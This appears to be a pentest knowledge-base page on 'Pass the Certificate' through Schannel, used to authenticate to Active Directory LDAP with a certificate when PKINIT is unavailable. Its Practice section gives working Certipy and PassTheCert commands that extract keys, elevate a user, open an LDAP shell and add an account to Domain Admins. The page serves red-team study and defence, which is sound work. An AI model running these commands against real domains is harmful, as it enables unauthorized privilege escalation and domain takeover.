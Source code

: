 # Pass the Certificate

{% hint style="warning" %}
This technique extends the notion of [Pass the Certificate](../kerberos/pass-the-certificate.md), thus dubbed by [@\_nwodtuhs](https://twitter.com/\_nwodtuhs/) in his Twitter [thread on AD CS and PKINIT](https://twitter.com/\_nwodtuhs/status/1451510341041594377). Even if both techniques share the same name and the same concept, the authentication method is different.
{% endhint %}

## Theory

Sometimes, Domain Controllers do not support [PKINIT](../../kerberos/pass-the-certificate.md). This can be because their certificates do not have the `Smart Card Logon` EKU. Most of the time, domain controllers return `KDC_ERR_PADATA_TYPE_NOSUPP` error when the EKU is missing. Fortunately, several protocols — including LDAP — support Schannel, thus authentication through TLS. As the term "schannel authentication" is derived from the [Schannel SSP (Security Service Provider)](https://learn.microsoft.com/en-us/windows-server/security/tls/tls-ssl-schannel-ssp-overview) which is the Microsoft SSL/TLS implementation in Windows, it is important to note that schannel authentication is a SSL/TLS client authentication.

{% hint style="success" %}
* Schannel authentication relies on TLS so it is, by design, not subject to channel binding, as the authentication is borne by TLS itself.
* Schannel is not subject to LDAP signing either as the `bind` is performed after a StartTLS command when used on the LDAP TCP port.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
Tools like [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) (python version) and [Certipy](https://github.com/ly4k/Certipy) can be used to authenticate with the certificate via Schannel against LDAP.

```bash
# If you use Certipy to retrieve certificates, you can extract key and cert from the pfx by using:
$ certipy cert -pfx user.pfx -nokey -out user.crt
$ certipy cert -pfx user.pfx -nocert -out user.key

# elevate a user (it assumes that the domain account for which the certificate was issued, holds privileges to elevate user)
passthecert.py -action modify_user -crt user.crt -key user.key -domain domain.local -dc-ip "10.0.0.1" -target user_sam -elevate

# spawn a LDAP shell
passthecert.py -action ldap-shell -crt user.crt -key user.key -domain domain.local -dc-ip "10.0.0.1"
certipy auth -pfx -dc-ip "10.0.0.1" -ldap-shell
```
{% endtab %}

{% tab title="Windows" %}
Pass the cert technique can be done with[PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) (C# version).

```bash
# Add simple_user to Domain Admins (it assumes that the domain account for which the certificate was issued, holds privileges to add user to this group)
.\PassTheCert.exe --server fqdn.domain.local --cert-path Z:\cert.pfx --add-account-to-group --target "CN=Domain Admins,CN=Users,DC=domain,DC=local" --account "CN=simple_user,CN=Users,DC=domain,DC=local"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html" %}

{% embed url="https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf" %}

{% embed url="https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d" %}
